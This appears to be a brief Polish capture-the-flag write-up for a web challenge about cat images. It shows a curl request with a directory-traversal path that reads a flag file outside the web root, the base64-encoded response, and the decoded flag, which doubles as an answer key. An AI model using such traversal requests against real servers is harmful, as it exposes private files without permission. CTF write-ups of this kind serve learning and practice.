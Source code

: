 # Trawersujące koty web Punkty: 50
# Łukasz Dzwoniarek

# pwn{koty.czy.nie,zadanie.zrobione}

```bash
$ curl https://cats.pwning2016.p4.team/view.html?file=/../../../../home/cats/flag.txt

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>A cat!</title>
</head>
<body>

    <center>
        <img alt = "Embedded Image" src = "data:image/png;base64,cHdue2tvdHkuY3p5Lm5pZSx6YWRhbmllLnpyb2Jpb25lfQo=" />
    </center>
</body>
$ echo cHdue2tvdHkuY3p5Lm5pZSx6YWRhbmllLnpyb2Jpb25lfQo= | base64 --decode
pwn{koty.czy.nie,zadanie.zrobione}
```